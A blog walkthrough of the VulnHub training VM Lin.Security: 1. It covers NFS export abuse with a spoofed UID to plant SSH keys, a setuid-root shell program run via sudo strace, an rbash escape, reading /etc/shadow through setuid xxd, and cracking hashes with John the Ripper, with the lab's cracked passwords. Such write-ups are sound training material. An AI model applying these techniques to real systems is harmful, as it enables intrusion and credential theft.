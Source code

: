 ```yaml
---
layout: post
date: 2018-08-18 13:12:15 +0000
last_modified_at: 2018-08-18 13:35:07 +0000
title: "Lin.Security: 1 Walkthrough"
subtitle: "Not Too Secure"
category: Walkthrough
tags: [VulnHub, Lin.Security]
comments: true
image:
  feature: lin.security-1-walkthrough.jpg
  credit: aitoff / Pixabay
  creditlink: https://pixabay.com/en/rope-frayed-old-coiled-strand-2189420/
---
```


This post documents the complete walkthrough of Lin.Security: 1 a boot2root [VM][1] created by [in.security][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Here at in.security we wanted to develop a Linux virtual machine that is based, at the time of writing, on an up-to-date Ubuntu distro (18.04 LTS), but suffers from a number of vulnerabilities that allow a user to escalate to `root` on the box. This has been designed to help understand how certain built-in applications and services if misconfigured, may be abused by an attacker.

We have configured the box to simulate real-world vulnerabilities (albeit on a single host) which will help you to perfect your local privilege escalation skills, techniques and toolsets. There are a number challenges which range from fairly easy to intermediate level and we’re excited to see the methods you use [sic] to solve them!

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
|_  256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
111/tcp   open  rpcbind  syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      41225/tcp  mountd
|   100005  1,2,3      44576/udp  mountd
|   100021  1,3,4      38947/tcp  nlockmgr
|   100021  1,3,4      59622/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 64 3 (RPC #100227)
38947/tcp open  nlockmgr syn-ack ttl 64 1-4 (RPC #100021)
41225/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
41683/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
51813/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
```

`nmap` finds `22/tcp` and `111/tcp` open. I don't see the usual `80/tcp`, which is unfortunate. We have to rely on other means to gain a foothold into the VM.

### Network File System

Good thing for us, NFS is available. Using `showmount`, we can display the exports on the VM.

```
# showmount -e 192.168.30.129
Export list for 192.168.30.129:
/home/peter *
```

Let's mount the remote directory.

```
# mkdir -p /mnt/peter
# mount -t nfs 192.168.30.129:/home/peter /mnt/peter
# ls -la /mnt/peter
total 32
drwxr-xr-x 5 1001 1005 4096 Jul 10 19:49 .
drwxr-xr-x 4 root root 4096 Aug 18 11:11 ..
-rw-r--r-- 1 1001 1005  220 Jul  9 19:53 .bash_logout
-rw-r--r-- 1 1001 1005 3771 Jul  9 19:53 .bashrc
drwx------ 2 1001 1005 4096 Jul 10 10:04 .cache
-rw-rw-r-- 1 1001 1005    0 Jul 10 10:04 .cloud-locale-test.skip
drwx------ 3 1001 1005 4096 Jul 10 10:04 .gnupg
drwxrwxr-x 3 1001 1005 4096 Jul 10 08:03 .local
-rw-r--r-- 1 1001 1005  807 Jul  9 19:53 .profile
```

Now that I've mapped `/home/peter` to `/mnt/peter`, let's see if I create `.ssh` directory in `/home/peter`.

```
# mkdir -p /mnt/peter/.ssh
mkdir: cannot create directory ‘/mnt/peter/.ssh’: Permission denied
```

Hmm. Not even when I'm `root`? Let's create a fake `peter` account with an UID of `1001` on my machine.

```
# useradd -u 1001 peter
# su peter
$ cd /mnt/peter
$ mkdir .ssh
```

Awesome. Now, I can put the SSH public key I control into `/home/peter/.ssh/authorized_keys`.

First, we generate the SSH Key pair on my machine.

```
# ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): peter
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in peter.
Your public key has been saved in peter.pub.
The key fingerprint is:
SHA256:TuGkIRfE6ODlItT4jp9ILW/8oGRTEa7JLCDI5dgKnMs root@kali
The key's randomart image is:
+---[RSA 2048]----+
|  oo +o          |
|+oO.+ ..         |
|**.X. o o        |
|O B.+o = .       |
|.E+o  . S        |
|.+.o   o         |
|.+*..   .        |
|o.o*.            |
| .. ..           |
+----[SHA256]-----+
```

Next, we copy and paste the contents of `peter.pub` to `/mnt/peter/.ssh/authorized_keys`.

```
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1rYFvo6Wh4j44p4s6WfDYb637m62zA0CwE5t9K6iKbosZMpeDBGP2q8C2O3yw2P9Dhv3jRPCutf1ruadaMxxiOY8Ook/3fwMcaueCAs0ThKCMRlnf0yzUnEHH7t82MrEghMnL4GfUcYlxIwo8d5jQe7umuJneYK786iDNEPaEajC45GQlrZWCzIWqs3B3vJBQ4FR766EHsmiKVWvQ35uR69/O39IePJQ8oSTF+PK0RoCtvmYt44jeqUO0NfYGeCGwqtYW/i+ILTOkW45bYRVjhmrJ2C+yjtK3bsmDiq28IT9STCFlkI7OqEfJkeYqBSJVqVqOkFFvx4+7fyTpchT/ > /mnt/peter/.ssh/authorized_keys
```

Open another `terminal` and log in to `peter`'s account with the SSH private key.

![peter](/assets/images/posts/lin.security-1-walkthrough/228fe4f8.png)

### Privilege Escalation

During enumeration of `peter`'s account, I found something interesting.

![sudo](/assets/images/posts/lin.security-1-walkthrough/1fc14ac6.png)

`peter` is able to `sudo` as `root` for `/usr/bin/strace`, used for tracing system calls and signals.

Holy cow. This means that I can do something like this—write a privilege escalation program and run it through `strace` with the blessing of `sudo`—all without password.

<div class="filename"><span>root.c</span></div>

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

Let's give it a shot.

![root](/assets/images/posts/lin.security-1-walkthrough/fe6a2b56.png)

:dancer:

### Afterthought

There's more than one way of becoming `root`. The most obvious way is to log in with `bob:secret` as suggested.

![bob](/assets/images/posts/lin.security-1-walkthrough/367b19d3.png)

Display `/etc/passwd`. Observe `insecurity` has its password hash in it and has `root` privileges

![/etc/passwd](/assets/images/posts/lin.security-1-walkthrough/a135634c.png)

We can copy that line and send it to **John the Ripper** for offline cracking like this.

```
# john --format=crypt --show hash.txt
insecurity:P@ssw0rd:0:0::/:/bin/sh

1 password hash cracked, 0 left
```

Another way is to discover `susan`'s password in her home directory either through `bob`'s account or `peter`'s account described above.

![susan](/assets/images/posts/lin.security-1-walkthrough/c1174f4d.png)

You'll soon notice that `susan` is using `rbash` or restricted `bash`. It's almost trivial to escape from `rbash`—execute `bash -i`.

Now that we have escaped the restricted shell, something caught my eye while I was performing enumeration on `susan`'s account.

![xxd](/assets/images/posts/lin.security-1-walkthrough/e2d6c4d0.png)

`xxd` can display the hexdump or convert to hexadecimal representation (through `-p`) of any file it has read permissions. Since `xxd` is `setuid` to `root`, we can use it to read `/etc/shadow` like so.

![/etc/shadow](/assets/images/posts/lin.security-1-walkthrough/72640ded.png)

We can copy both `/etc/passwd` and `/etc/shadow` to our attacking machine for offline cracking with **John the Ripper**, in which case the `root` password is `secret123`.

```
# john --format=crypt --show hashes.txt
root:secret123:0:0:root:/root:/bin/bash
bob:secret:1000:1004:bob:/home/bob:/bin/bash
insecurity:P@ssw0rd:0:0::/:/bin/sh

3 password hashes cracked, 2 left
```

I'm sure this is not exhaustive. Kudos to [in.security](https://in.security/) for creating this VM. No better way to learn than hands-on practice.

[1]: https://www.vulnhub.com/entry/linsecurity-1,244/
[2]: https://twitter.com/@insecurity_ltd
[3]: https://www.vulnhub.com/
